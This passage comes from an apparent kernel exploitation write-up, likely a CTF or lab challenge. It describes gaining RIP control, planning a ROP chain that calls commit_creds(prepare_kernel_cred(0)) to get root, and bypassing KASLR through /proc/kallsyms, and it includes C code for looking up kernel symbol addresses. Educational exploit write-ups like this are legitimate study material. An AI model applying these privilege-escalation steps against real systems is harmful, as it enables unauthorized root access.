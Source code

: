 A kernel stack trace with {{< hl-text orange >}}RIP: 0010:0x6161616161616161{{< /hl-text >}}, we have full control over RIP we can start building our exploit.

# Ropping through hell

I though that it would be easy from here, but I actually spent a lot of time finding a good strategy to execute some privileged actions. My idea was initially to pop a root shell, let's see the different steps to get there. First I tried to map a userland region as rwx and execute a custom shellcode from there, but I don't know why It didn't work. So I decided to build a ropchain. 

In order to elevate our privileges, we have to call these functions in kernel-land:

{{< codeblock lang="c"  >}}
commit_creds(prepare_kernel_cred(0));
{{< /codeblock >}}

This will grant us root privileges which means that we will theoretically be able to do whatever we want on the system. To call these functions we need to know their addresses, {{< hl-text orange >}}kaslr{{< /hl-text >}} is enabled, but we can read {{< hl-text orange >}}/proc/kallsym{{< /hl-text >}} which holds all the kernel function addresses and their current offset, thus defeating kaslr.

Here is a useful function to get kernel addresses base on the symbol name :

{{< codeblock lang="c"  >}}
unsigned long get_kernel_sym(char *name) {
    FILE *f;
    unsigned long addr;
    char dummy;
    char sname[256];
    int ret = 0;


    f = fopen("/proc/kallsyms", "r");
    if (f == NULL) {
        printf("[-] Failed to open /proc/kallsyms\n");
        exit(-1);
    }
    printf("[+] Find %s...\n", name);
    while(ret != EOF) {
        ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
        if (ret == 0) {
            fscanf(f, "%s\n", sname);
            continue;
        }
        if (!strcmp(name, sname)) {
            fclose(f);
            printf("[+] Found %s at %lx\n", name, addr);
            return addr;
        }
    }
    fclose(f);
    return 0;
}
{{< /codeblock >}}
